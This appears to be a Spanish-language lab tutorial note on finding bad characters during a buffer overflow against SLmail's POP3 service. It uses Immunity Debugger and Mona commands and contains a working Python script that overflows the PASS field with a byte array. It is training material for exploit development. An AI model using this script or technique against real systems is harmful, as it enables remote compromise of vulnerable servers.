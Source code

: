 -----
- Tags: #badchars #bytearrays
----
# Definición

> En la generación de nuestro shellcode malicioso para la explotación del buffer overflow, es posible que algunos caracteres no sean interpretados correctamente por el programa objetivo. Estos caracteres se conocen como “**badchars**” y pueden causar que el shellcode falle o que el programa objetivo se cierre inesperadamente.

Para evitar esto, es importante identificar y eliminar los badchars del shellcode. Veremos cómo desde **Immunity Debugger** podremos aprovechar la funcionalidad **Mona** para generar diferentes bytearrays con casi todos los caracteres representados, y luego identificar los caracteres que el programa objetivo **no logra interpretar**.

Una vez identificados los **badchars**, se pueden descartar del shellcode final y **generar un nuevo shellcode que no contenga estos caracteres**. Para identificar los badchars, se pueden utilizar diferentes técnicas, como la introducción de diferentes Bytesarrays con caracteres hexadecimales consecutivos, que permiten identificar los caracteres que el programa objetivo no logra interpretar.

-------
# Detección de Badchars

Vamos a intentar identificar que caracteres permite el programa y cuales no, todo esto **aprovechándonos del espacio de la Pila**, específicamente en donde previamente nosotros introducimos nuestras letras "*C*".

Lo primero que vamos a hacer es **identificar nuestro espacio de trabajo** donde se almacenará la cadena de **Bytes** que nos permita **detectar** cuales son los badchars del programa SLmail, para esto en el campo de entrada de la parte inferior del Immunity Debugger colocaremos ``!mona`` para ejecutar la extensión **Mona**.

![[BOF 13.png]]

Ahora en la misma casilla ejecutaremos la instrucción ``!mona config``, esto con el objetivo de identificar como establecer o setear nuestro **directorio de trabajo**. Toda la información se verá plasmada en la parte inferior de la consola.

![[BOF 14.png]]

Vemos que hay un parámetro ``-set <parameter> <value>`` que sirve para que indiquemos donde esta la ruta que queremos contemplar para almacenar nuestros recursos ahí, y una línea mas abajo se ve cuales son los parámetros válidos.

En nuestro caso usaremos el parámetro ``workingfolder``, por lo tanto pondríamos lo siguiente

- ``-set workingfolder C:\Users\Santi\Desktop\Analysis``

Esto lo hacemos para crear una carpeta llamada ``Analysis`` en la ruta que especificamos, todo esto con el objetivo de tener un lugar cómodo para trabajar. Es común que no veamos la carpeta si nos metemos en esa ruta, para poder verla debemos crear un **Bytearray**.

Usaremos el siguiente comando para crear un **Bytearray**, de esta manera veremos todas las posibles combinatorias de caracteres lo cual nos servirá para aplicar un filtro con la misma herramienta Mona y detectar cuales son los **badchars**.

- ``!mona bytearray``

![[BOF 15.png]]

Algo que tenemos que tener en cuenta es que el **NullByte** (``\x00``) siempre suele dar problemas ya que este, en los lenguajes de programación, suele indicar el final de una cadena o del código, a veces omitiendo el contenido que le sigue a el. 
Nosotros podemos **eliminar el NullByte de forma manual** del archivo ``bytearray.txt``, o podemos en el panel de entrada de Immunity escribir ``!mona bytearray -cpb '\x00'`` para modificar el archivo automáticamente excluyendo el NullByte.

------

Nuestro objetivo ahora es que en vez de escribir en la Pila las letras "*C*", escribiremos el **Bytearray** que hemos creado con **Mona**, de esta forma tendremos que ver cual es el caracter que no sale representado dentro de la Pila para detectar que es un **Badchar**.

Lo que debemos hacer es pasarnos el archivo ``bytearray.txt`` a nuestra **máquina de atacante**, esto lo podemos hacer montándonos un servidor **SMB**, **Samba** desde Linux.

- ``impacket-smbserver smbfolder $(pwd) -smb2support``

Nosotros estamos **creando un recurso compartido a nivel de red** con nombre ``smbfolder``, que queremos que esté **sincronizado** con el directorio actual de trabajo, además le daremos **soporte** a la versión 2 de SMB porque en ocasiones el Windows suele requerirlo.
Ahora la idea sería ir a la máquina Windows en el **Explorador de archivos** y colocar ``\\ip-máquina-atacante\smbfolder`` para que se nos abra la carpeta de la máquina de atacante nuestra. Por ultimo simplemente arrastramos el archivo ``bytearray.txt`` a la carpeta de ``smbfolder`` de esta forma ya tendríamos el archivo TXT en nuestra máquina Linux.

Copiamos todas las combinatorias del **Bytearray** que están dentro del archivo ``bytearray.txt`` y lo vamos a meter en nuestro script de Python llamado ``eip-control.py``.

![[BOF 16.png]]

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales. 
ip_address = "192.168.0.120"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
esp = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + esp


def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    banner = s.recv(1024)

    s.send(b"USER test" + b'\r\n')
    response = s.recv(1024) 
    s.send(b"PASS " + payload + b'\r\n')
    s.close()

if __name__ == '__main__':

    exploit()
```

Procedemos a **ejecutar el script** y analizamos el comportamiento de la Pila para determinar cuales son los Badchars, esto se puede realizar de forma manual observando cuales son los que faltan o simplemente utilizar la herramienta ``!mona compare`` para comparar los caracteres actuales de la Pila con los caracteres que nos otorgó el archivo ``bytearray``, de esta forma nos reportará cuales son los que no aparecen, que en ese caso serían Badchars.

![[BOF 17.png]]

Utilizaremos el siguiente comando en el campo de entrada del Immunity Debugger

- ``!mona compare -a 0x0275A128 -f C:\Users\Santi\Desktop\Analysis\bytearray.bin``

El parámetro ``-a`` se utiliza en Mona para indicar la **Dirección** o **Address** que queramos comparar con el archivo ``bytearray.bin``, en nuestro caso colocaremos la dirección brindada por el **ESP**, que en mi caso es *0275A128* y luego con el parámetro ``-f`` indicamos donde está el archivo ``bytearray.bin`` con el que queremos comparar. ==NOTA:== En este caso no debemos utilizar el archivo ``.txt`` si no el ``.bin``.

![[BOF 18.png]]

Los BadChars que detectó Mona fueron el ``00`` y el ``0a`` por lo tanto nuevamente le decimos a **Mona** que **excluya esos caracteres** del archivo ``bytearray`` con el parámetro ``bytearray -cpb``.

- ``!mona bytearray -cpb '\x00\x0a'``

Ahora volvemos a **modificar** nuestro script ``eip-control.py`` **quitándole esos badchars** que en mi caso lo voy a hacer manual.

Una vez quitados los dos caracteres volvemos a ejecutar el script y observamos la Pila nuevamente, ahora deberíamos **repetir todos los procedimientos de detección de Badchars** hasta que **ya no salgan mas**.

==NOTA:== Entre intento e intento **debemos reiniciar el SLmail y el Immunity Debugger** debido a que vamos a estar crasheando constantemente el programa, es por eso que el valor de la dirección/address del **ESP** varía en los próximos ejemplos.

- ``!mona compare -a 01BAA128 -f C:\Users\Santi\Desktop\Analysis\bytearray.bin``

![[BOF 19.png]]

Como podemos ver apareció uno nuevo, por lo tanto lo **eliminamos** de nuestro script y con Mona ejecutamos el ``!mona bytearray -cpb '\x00\x0a\x0d'`` para eliminar el **nuevo Badchar** del archivo ``bytearray`` y volvemos a repetir.

- ``!mona compare -a 0271A128 -f C:\Users\Santi\Desktop\Analysis\bytearray.bin``

![[BOF 20.png]]

De esta forma conseguimos **eliminar todos los BadChars de la Pila**, por lo tanto tenemos libertad de poder crear nuestro **Shellcode** en base a los caracteres permitidos.

Nuestro objetivo ahora es tratar de **encontrar una dirección** a la cual desde el **EIP** apuntemos para que **se aplica un salto hacia el ESP**, esto lo validaremos metiendo **Breakpoints** en la próxima sección.